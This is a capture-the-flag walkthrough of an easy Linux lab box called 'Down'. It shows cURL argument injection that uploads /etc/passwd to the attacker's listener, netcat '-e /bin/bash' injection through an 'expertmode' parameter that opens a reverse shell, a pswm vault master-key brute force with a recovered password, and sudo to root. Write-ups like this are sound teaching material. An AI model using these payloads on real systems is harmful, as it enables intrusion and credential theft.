

# Down
Platform: **Linux**
Difficulty: **Easy**

## Initial enumeration

A port scan reveals the following:
```bash
nmap -sC -sV -p 22,80 10.129.203.28  

Host is up (0.056s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f6:cc:21:7c:ca:da:ed:34:fd:04:ef:e6:f9:4c:dd:f8 (ECDSA)
|_  256 fa:06:1f:f4:bf:8c:e3:b0:c8:40:21:0d:57:06:dd:11 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Is it down or just me?
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Now to take a look at the web server.



As this web application's propose is to check whether or not a http server is down, I'll try to find more about how it works.
I'll use NetCat to open a listening port and examine the request it sends.

```bash
# URL: http://10.10.14.193

nc -l 80                           
GET / HTTP/1.1
Host: 10.10.14.193
User-Agent: curl/7.81.0
Accept: */*
```

We now know it's using cURL. I'll check if there is some kind of command injection (using a cURL argument).
```bash
# Payload: http://10.10.14.193 --upload-file 

nc -lnvp 80                                                                                                                    14:08:20 [3/45]
Listening on 0.0.0.0 80                                                                                                                           
Connection received on 10.129.110.91 56176                                                                                                        
PUT /passwd HTTP/1.1                                                                                                                              
Host: 10.10.14.193
User-Agent: curl/7.81.0
Accept: */*
Content-Length: 1876
Expect: 100-continue

...
aleks:x:1000:1000:Aleks:/home/aleks:/bin/bash
...
```

We know have an Arbitrary Read vulnerability. I'll read the "index.php"  

[index.php](index.php)

## Foothold:

We can see that "expert mode" has allows us to add arguments to the NetCat command:
```php
if ( isset($_GET['expertmode']) && $_GET['expertmode'] === 'tcp' && isset($_POST['ip']) && isset($_POST['port']) ) {
  $ip = trim($_POST['ip']);
  $valid_ip = filter_var($ip, FILTER_VALIDATE_IP);
  $port = trim($_POST['port']);
  $port_int = intval($port);
  $valid_port = filter_var($port_int, FILTER_VALIDATE_INT);
  if ( $valid_ip && $valid_port ) {
    $rc = 255; $output = '';
    $ec = escapeshellcmd("/usr/bin/nc -vz $ip $port");
    exec($ec . " 2>&1",$output,$rc);
    echo '<div class="output" id="outputSection">';
```

I'll establish a reverse shell.

Payload:
```bash
ip=10.10.14.193&port=6666+-e+/bin/bash
```

```bash
rlwrap nc -lnvp 6666
Listening on 0.0.0.0 6666
Connection received on 10.129.110.91 55774

ls
index.php
logo.png
style.css
user_aeT1xa.txt
```

## Privilege Escalation:

We already know about the user "aleks". Looking through his file we can see something interesting:
```bash
ls -la /home/aleks/.local/share/pswm

drwxrwxr-x 2 aleks aleks 4096 Sep 13  2024 .
drwxrwxr-x 3 aleks aleks 4096 Sep 13  2024 ..
-rw-rw-r-- 1 aleks aleks  151 Sep 13  2024 pswm
```

Pswm, as I also found out, it's a password manager. I found a script that will brute force the master key. I'll use it to get the user password.

```bash
python3 pswm-decoder.py 
Password: flower
Decoded text:
pswm    aleks   flower
aleks@down      aleks   1uY3w22uc-Wr{xNHR~+E
```

Credentials:
```
aleks: 1uY3w22uc-Wr{xNHR~+E
```

I'll use ssh to establish a stable shell as aleks.

We can check what rights we have:
```bash
sudo -l
[sudo] password for aleks: 
Matching Defaults entries for aleks on down:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User aleks may run the following commands on down:
    (ALL : ALL) ALL
```

We can no just sudo as root and get the flag.
```
aleks@down:~$ sudo su
root@down:/home/aleks# 
```